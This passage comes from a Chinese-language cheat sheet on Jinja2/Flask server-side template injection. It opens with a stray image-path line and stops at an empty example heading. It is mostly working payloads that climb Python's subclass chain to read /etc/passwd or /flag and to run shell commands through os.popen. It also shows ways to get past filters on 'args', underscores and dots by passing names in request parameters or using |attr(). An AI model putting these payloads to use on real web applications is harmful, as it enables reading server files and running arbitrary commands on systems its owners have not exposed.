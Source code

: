 等同于

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

#### 利用request对象绕过

示例：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

如果过滤了args，可以将其中的request.args改为request.values，POST和GET两种方法传递的数据request.values都可以接收。

### 过滤了下划线__

#### 利用request对象绕过

```python
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

### 过滤了点 .

#### 利用 `|attr()` 绕过（适用于flask）

如果`.` 也被过滤，且目标是JinJa2（flask）的话，可以使用原生JinJa2函数`attr()`，即：

```python
().__class__   =>  ()|attr("__class__")
```

示例：
